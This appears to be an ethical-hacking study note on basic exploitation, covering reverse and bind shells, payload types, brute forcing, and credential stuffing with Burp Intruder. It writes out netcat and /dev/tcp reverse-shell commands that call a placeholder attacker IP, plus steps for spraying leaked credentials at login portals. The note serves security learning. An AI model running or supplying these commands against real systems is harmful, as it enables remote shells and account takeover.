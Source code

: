 # Exploitation (Basics)

## Shells

### Reverse shell

![image](https://user-images.githubusercontent.com/96747355/175835538-b00ec472-e4b3-4688-b062-25d37837b8b1.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- The target connects back to us
- Example 
  - in our attacking machine we type `nc -nlvp 4444` (4444 is the port) 
  - in our target we connect be. For instance in case of a linux based machine we can do `netcat ATTACKING-MACHINE-IP 4444 -e /bin/bash` we could also use `/bin/bash -i >& /dev/tcp/ATTACKING-MACHINE-IP/4444 0>&1`

### Bind shell

![image](https://user-images.githubusercontent.com/96747355/175835567-7bb7a51d-7761-4cc8-983a-cc7087dacaac.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- We connect to the target
- Example
  - in our target we can do `nc -nlvp 4444 -e /bin/bash`
  - in our attacking machine we can do `nc TARGET-IP 4444`

## Payloads

![image](https://user-images.githubusercontent.com/96747355/175836279-e0f0e004-c75a-4d8e-b4de-9680e1b5306a.png)  
Source:[TCM Academy](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)
- If one type of payload does not work we can try the other one

## Bruteforce attacks

- Check out how to use hydra [here](/Tools/passwords-tools.md#hydra)
- We can also use metasploit that has multiple modules for bruteforce attacks

## Credentials stuffing and password spraying

- Methodology
  - Use leaked creds found during the enumeration phase on the login portals found during the enumeration phase
-  The goal of credentials stuffing and password spraying is to taking these credentials and throwing them at a website
- We can use burp intruder for this
  - First we can see what we get when a login fails, and copy the string we get back
  - We send the login portal to intruder and we add the login and password as variables
  - We use a pitchfork attack
  - We make a grep-match on the string previously copied 
  - Then in the payloads we take the list of users for the variable that corresponds to user and the list of passwords for the one that corresponds to the password. And then we just launch the attack.
  - In the results we will see the ones that are not valid with our grep match. We can also check the response (301 is redirect for example) and the size of the paylaod (if it is really different in one of the results
- Password spraying: We can also try an attack with one password and try out multiple usernames
  - Caution here, checkout prior to your engagement if a lockout is in place how many tried before being locked out. When we know this we can then setup our attack to try something every hour or so.

## Resources

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}Hacking Tutorials{% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}
